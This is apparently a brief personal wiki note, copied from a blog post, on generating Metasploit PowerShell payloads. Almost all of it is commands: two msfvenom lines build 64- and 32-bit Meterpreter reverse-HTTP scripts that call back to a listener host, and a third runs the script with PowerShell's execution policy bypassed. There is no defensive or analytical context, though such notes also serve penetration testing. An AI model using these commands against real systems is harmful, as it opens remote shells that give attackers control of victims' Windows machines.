 <!-- TITLE: Metasploit Powershell Payload -->
<!-- SUBTITLE: A quick summary of Metasploit Powershell Payload -->

# Header
Grabbed from https://blog.didierstevens.com/2017/08/16/generating-powershell-scripts-with-msfvenom-on-windows/

```
msfvenom -p windows/x64/meterpreter_reverse_http -format psh -out meterpreter-64.ps1 LHOST=10.0.0.1
msfvenom -p windows/meterpreter_reverse_http -format psh -out meterpreter-32.ps1 LHOST=10.0.0.1
```

# To Run
```
powershell.exe -ExecutionPolicy Bypass -NoExit -File meterpreter-64.ps1
```
